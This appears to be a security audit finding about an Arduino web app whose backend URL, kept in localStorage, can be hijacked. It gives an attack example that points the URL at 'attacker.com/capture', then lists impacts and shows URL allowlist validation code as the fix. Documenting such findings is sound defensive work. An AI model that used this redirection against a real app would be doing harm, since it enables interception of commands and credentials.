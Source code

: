 **Description:**
Backend URL stored in localStorage can be manipulated by XSS or malicious browser extensions.

**Attack Scenario:**
```javascript
// Attacker injects script or uses browser console
localStorage.setItem('arduinoBackendUrl', 'https://attacker.com/capture');
// All subsequent Arduino commands are sent to attacker's server
```

**Impact:**
- Man-in-the-middle attacks
- Credential harvesting
- Command interception
- Traffic analysis

**Remediation:**
```javascript
// Add URL validation
function validateBackendUrl(url) {
    try {
        const parsed = new URL(url);

        // Only allow specific protocols
        if (!['http:', 'https:'].includes(parsed.protocol)) {
            return false;
        }

        // Whitelist approach (recommended for production)
        const ALLOWED_HOSTS = [
            'localhost',
            '127.0.0.1',
            /^.*\.ngrok\.io$/,
            /^.*\.ngrok-free\.app$/,
        ];

        const hostname = parsed.hostname;
        const isAllowed = ALLOWED_HOSTS.some(pattern => {
            if (pattern instanceof RegExp) {
                return pattern.test(hostname);
            }
            return pattern === hostname;
        });

        if (!isAllowed) {
            console.error('Backend URL not in whitelist:', hostname);
            return false;
        }

        return true;
    } catch (e) {
        return false;
    }
}

function connectToBackend() {
    const inputUrl = document.getElementById('backendUrlInput').value.trim();
    if (!inputUrl) {
        alert('Please enter a backend URL');
        return;
    }

    if (!validateBackendUrl(inputUrl)) {
        alert('Invalid or disallowed backend URL. Only localhost and *.ngrok.io domains are permitted.');
```